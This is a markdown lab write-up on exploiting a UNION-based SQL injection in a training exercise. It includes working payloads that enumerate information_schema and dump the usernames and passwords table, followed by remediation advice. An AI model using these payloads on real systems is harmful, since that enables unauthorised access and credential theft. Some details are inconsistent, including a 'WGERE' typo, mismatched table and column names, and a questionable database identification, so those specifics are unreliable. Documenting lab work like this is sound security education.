



# LAB 05 - Listing the database contents on non-Oracle databases

## Lab Information

- **Category:** SQL Injection
- **Difficulty:** Practitioner
- **Status:** ✅ Solved
- **Date:** 2026-8-1

---


---

## Objective

The objective of this lab is to exploit a UNION-based SQL Injection vulnerability to access user information and passwords, and to log in as the administrator.
---

## Vulnerability Overview

In this lab, a UNION-based SQL injection vulnerability was exploited to extract user information from a non-Oracle database; by combining the original query with a malicious `UNION SELECT` statement, it was possible to extract the administrator's information.

---

## Methodology

1. Browse to the vulnerable category page.
2. Intercept the HTTP request using Burp Suite.
3. Identify the vulnerable category parameter.
4. Inject a UNION SELECT payload.
5. Determine the users table name using the `table_name` variable from the `information_schema.tables` database.
6. Injecting a UNION SELECT payload to discover column names using `column_name` from the `information_schema.columns` table.
7. Inject a UNION SELECT payload to retrieve all passwords and usernames from the users table.
---

## Payloads Used

```sql
' UNION SELECT table_name,NULL FROM information_schema.tables WHERE table_schema ='public'--
```

```sql
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name ='users_echoye'--
```

```sql
' UNION SELECT password_gfsbxm,username_ldmcrc FROM users_echoye--
```
(--) is used as the comment character in MySQL.

---

## Why It Worked

The payload completed the original SQL query and appended a `UNION SELECT` statement. Since both queries returned the same number of columns with compatible data types, MySQL merged the results, returning table names first, followed by column names; ultimately, by leveraging the table name and its columns, we were able to retrieve password and username information.

---

## Impact

An attacker can access information within the database, such as usernames, passwords, and other data.

---

## Root Cause

The application directly concatenated user-controlled input into the SQL query without using parameterized statements, allowing attackers to inject arbitrary SQL commands.

---

## Remediation

- **Prepared Statements**
  - Prevent SQL queries from being modified by user input.

- **Input Validation**
  - Reject unexpected input.

- **Least Privilege**
  - Reduce the impact if SQL Injection occurs.

---

## Lessons Learned

Database enumeration is a step-by-step process. Attackers do not guess table or column names; they retrieve metadata from the database's information schema and use it to locate sensitive information.

---

## SQL Query Analysis

The application likely executed the following SQL query:

```sql
SELECT name,description
FROM products
WHERE category='Gifts';

```

After SQL injection:

```sql
SELECT name,description
FROM products
WHERE category=''
UNION
SELECT table_name,NULL FROM information_schema.tables WGERE table_schema='public'--


```

```sql
SELECT name,description
FROM products
WHERE category=''
UNION
SELECT table_column,NULL FROM information_schema.columns WGERE table_name='users_echoye'--


```

```sql
SELECT name,description
FROM products
WHERE category=''
UNION
SELECT password_gfsbxm,username_ldmcrc FROM users_echoye--


```


---

## Database Specific Notes

- Database: MySQL / Microsoft SQL Server
- Users table name: user_echoye
- Password and username column names : password_gfsbxm,username_ldmcrc
- Comment Syntax Used: --
  
---

## Key Takeaways

- UNION SELECT requires matching columns.
- information_schema it stores database system information, such as table and column names.
- Database fingerprinting helps identify DBMS-specific attack techniques.

---

## Screenshots

### Before Exploitation



### Burp Request



.png)

.png)


### Result


